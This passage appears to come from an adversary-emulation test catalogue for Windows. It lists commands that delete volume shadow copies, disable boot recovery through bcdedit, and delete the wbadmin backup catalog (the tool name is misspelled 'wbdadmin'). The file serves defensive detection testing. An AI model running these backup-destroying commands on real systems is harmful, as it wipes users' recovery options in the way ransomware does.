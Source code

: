
#### Run it with `command_prompt`!
```
wmic shadowcopy delete
```
<br/>
<br/>

## Atomic Test #12 - bcdedit
xxx

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
```
<br/>
<br/>

## Atomic Test #13 - wbadmin
xxx

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
wbdadmin delete catalog -quiet
```
<br/>
